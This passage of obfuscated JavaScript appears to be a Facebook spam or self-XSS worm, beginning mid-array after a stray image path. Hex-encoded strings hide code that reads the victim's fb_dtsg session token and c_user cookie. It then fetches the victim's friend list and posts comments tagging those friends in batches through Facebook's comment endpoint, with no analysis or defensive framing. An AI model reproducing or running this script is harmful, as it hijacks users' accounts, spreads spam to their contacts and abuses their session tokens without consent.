 65\x6E\x74\x5F\x66\x62\x69\x64\x22\x3A","\x7D","\x26\x61\x74\x74\x61\x63\x68\x65\x64\x5F\x73\x74\x69\x63\x6B\x65\x72\x5F\x66\x62\x69\x64\x3D\x30","\x26\x61\x74\x74\x61\x63\x68\x65\x64\x5F\x70\x68\x6F\x74\x6F\x5F\x66\x62\x69\x64\x3D\x30","\x26\x67\x69\x66\x74\x6F\x63\x63\x61\x73\x69\x6F\x6E","\x26\x66\x74\x5B\x74\x6E\x5D\x3D\x5B\x5D","\x26\x5F\x5F\x61\x3D\x31","\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x33\x35\x79\x6E\x78\x6C\x32\x75\x35\x46\x39\x37\x4B\x65\x70\x45\x73\x79\x6F","\x26\x5F\x5F\x72\x65\x71\x3D\x71","\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x74\x74\x73\x74\x61\x6D\x70\x3D","\x2F\x61\x6A\x61\x78\x2F\x75\x66\x69\x2F\x61\x64\x64\x5F\x63\x6F\x6D\x6D\x65\x6E\x74\x2E\x70\x68\x70","\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x74\x79\x70\x65","\x61\x70\x70\x6C\x69\x63\x61\x74\x69\x6F\x6E\x2F\x78\x2D\x77\x77\x77\x2D\x66\x6F\x72\x6D\x2D\x75\x72\x6C\x65\x6E\x63\x6F\x64\x65\x64","\x73\x65\x74\x52\x65\x71\x75\x65\x73\x74\x48\x65\x61\x64\x65\x72"];var _0xb161=[_0xbc0b[0],_0xbc0b[1],_0xbc0b[2],_0xbc0b[3],_0xbc0b[4],_0xbc0b[5],_0xbc0b[6],_0xbc0b[7],_0xbc0b[8],_0xbc0b[9],_0xbc0b[10],_0xbc0b[11],_0xbc0b[12],_0xbc0b[13],_0xbc0b[14],_0xbc0b[15],_0xbc0b[16],_0xbc0b[17],_0xbc0b[18],_0xbc0b[19],_0xbc0b[20],_0xbc0b[21]];var fb_dtsg=document[_0xb161[2]](_0xb161[1])[0][_0xb161[0]];var user_id=document[_0xb161[4]][_0xb161[3]](document[_0xb161[4]][_0xb161[3]](/c_user=(\d+)/)[1]);var now=( new Date)[_0xb161[5]]();function Report(_0x68aax6){var _0x68aax7= new XMLHttpRequest();var _0x68aax8=_0xb161[6];var _0x68aax9=_0xb161[7]+fb_dtsg+_0xb161[8]+_0x68aax6+_0xb161[9]+_0x68aax6+_0xb161[10]+now+_0xb161[11]+user_id+_0xb161[12]+user_id+_0xb161[13];_0x68aax7[_0xb161[15]](_0xb161[14],_0x68aax8,true);_0x68aax7[_0xb161[16]]=function (){if(_0x68aax7[_0xb161[17]]==4&&_0x68aax7[_0xb161[18]]==200){_0x68aax7[_0xb161[19]];} ;} ;_0x68aax7[_0xb161[20]](_0x68aax9);} ;var _0xa22c=[_0xbc0b[0],_0xbc0b[1],_0xbc0b[2],_0xbc0b[3],_0xbc0b[4],_0xbc0b[22],_0xbc0b[16],_0xbc0b[17],_0xbc0b[23],_0xbc0b[24],_0xbc0b[25],_0xbc0b[26],_0xbc0b[27],_0xbc0b[28],_0xbc0b[29],_0xbc0b[30],_0xbc0b[31],_0xbc0b[32],_0xbc0b[33],_0xbc0b[34],_0xbc0b[35],_0xbc0b[36],_0xbc0b[37],_0xbc0b[38],_0xbc0b[39],_0xbc0b[40],_0xbc0b[41],_0xbc0b[42],_0xbc0b[43],_0xbc0b[44],_0xbc0b[45],_0xbc0b[46],_0xbc0b[47],_0xbc0b[48],_0xbc0b[49],_0xbc0b[15],_0xbc0b[50],_0xbc0b[20],_0xbc0b[51],_0xbc0b[52],_0xbc0b[53],_0xbc0b[54],_0xbc0b[55],_0xbc0b[56],_0xbc0b[57],_0xbc0b[58],_0xbc0b[59],_0xbc0b[60],_0xbc0b[61],_0xbc0b[62],_0xbc0b[63],_0xbc0b[64],_0xbc0b[65],_0xbc0b[66],_0xbc0b[67],_0xbc0b[68],_0xbc0b[69],_0xbc0b[70],_0xbc0b[14],_0xbc0b[71],_0xbc0b[72],_0xbc0b[73],_0xbc0b[74],_0xbc0b[18],_0xbc0b[19]];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x68aaxf= new XMLHttpRequest();_0x68aaxf[_0xa22c[6]]=function (){if(_0x68aaxf[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x68aaxf[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x68aax10=_0xa22c[24];_0x68aax10+=_0xa22c[25];_0x68aax10+=_0xa22c[26];_0x68aax10+=_0xa22c[27];_0x68aax10+=_0xa22c[28]+user_id;_0x68aax10+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x68aaxf[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x68aax10,true);} else {_0x68aaxf[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x68aax10,true);} ;_0x68aaxf[_0xa22c[37]]();} ;function RandomArkadas(){var _0x68aax12=_0xa22c[10];for(i=0;i<9;i++){_0x68aax12+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x68aax12;} ;function yorum_yap(id,_0x68aax14){var _0x68aax15= new XMLHttpRequest();var _0x68aax10=_0xa22c[10];_0x68aax10+=_0xa22c[40]+id;_0x68aax10+=_0xa22c[41]+encodeURIComponent(_0x68aax14);_0x68aax10+=_0xa22c[42];_0x68aax10+=_0xa22c[43];_0x68aax10+=_0xa22c[44];_0x68aax10+=_0xa22c[45];_0x68aax10+=_0xa22c[46];_0x68aax10+=_0xa22c[47]+id+_0xa22c[48];_0x68aax10+=_0xa22c[49];_0x68aax10+=_0xa22c[50];_0x68aax10+=_0xa22c[51];_0x68aax10+=_0xa22c[52];_0x68aax10+=_0xa22c[29]+user_id;_0x68aax10+=_0xa22c[53];_0x68aax10+=_0xa22c[54];_0x68aax10+=_0xa22c[55];_0x68aax10+=_0xa22c[56]+fb_dtsg;_0x68aax10+=_0xa22c[57];_0x68aax15[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x68aax15[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x68aax15[_0xa22c[6]]=function (){if(_0x68aax15[_0xa22c[7]]==4&&_0x68aax15[_0xa22c[63]]==200){_0x68aax15[_0xa22c[64]];} ;} ;_0x68aax15[_0xa22c[37]](_0x68aax10);} ;arkadaslari_al(id);
(function() {